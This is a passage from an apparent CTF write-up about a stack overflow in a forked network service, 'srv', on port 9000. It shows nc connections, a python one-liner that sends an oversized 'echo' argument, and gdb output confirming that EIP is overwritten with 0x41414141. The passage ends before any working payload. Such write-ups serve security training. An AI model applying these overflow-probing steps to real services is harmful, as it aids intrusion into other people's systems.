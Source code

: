 Looks like the binary forks/creates a child that listens on port `9000`. We run `srv` without `ltrace` and connect to the port:

```bash
$ nc localhost 9000
fash$ help
Error - unsupported command
$ nc localhost 9000
fash$ echo hi
echo: hi
```

The father also speaks:

```bash
$ ./srv
Received client from 127.0.0.1:37372
Processing client: pid: 2388 socket: 4
Received client from 127.0.0.1:37373
Processing client: pid: 2390 socket: 4
```

Our first try is to cause a stack overflow:

```bash
$ python -c 'print "echo "+"A"*300' | nc localhost 9000
fash$ $
```

Well it seems it crashes, but gives us no output. As [this writeup suggests](https://ctf-team.vulnhub.com/hackim-2015-exploit-100/) you might be able to create a gdb core dump.

This can be done via following steps:

* Load the binary `srv` in `gdb` and tell `gdb` to follow childs with `set follow-fork-mode child`
* Run the binary with `r` or `run`
* Provide your input to the child by piping your stack overflow input to `nc localhost 9000`: `python -c 'print "echo "+ "A"*0x500' | nc localhost 9000`
* You'll then receive a SIGSEGV in `gdb`:
```bash
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/nullcon/exploit-1/srv
Received client from 127.0.0.1:37413
[New process 3482]
Processing client: pid: 3482 socket: 4

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3482]
[----------------------------------registers-----------------------------------]
EAX: 0xffffffff 
EBX: 0x1 
ECX: 0xffffffbc 
EDX: 0x1 
ESI: 0x10 
EDI: 0xffffb4f0 ('A' <repeats 200 times>...)
EBP: 0x41414141 ('AAAA')
ESP: 0xffffb440 ('A' <repeats 200 times>...)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffb440 ('A' <repeats 200 times>...)
0004| 0xffffb444 ('A' <repeats 200 times>...)
0008| 0xffffb448 ('A' <repeats 200 times>...)
0012| 0xffffb44c ('A' <repeats 200 times>...)
0016| 0xffffb450 ('A' <repeats 200 times>...)
0020| 0xffffb454 ('A' <repeats 200 times>...)
0024| 0xffffb458 ('A' <repeats 200 times>...)
```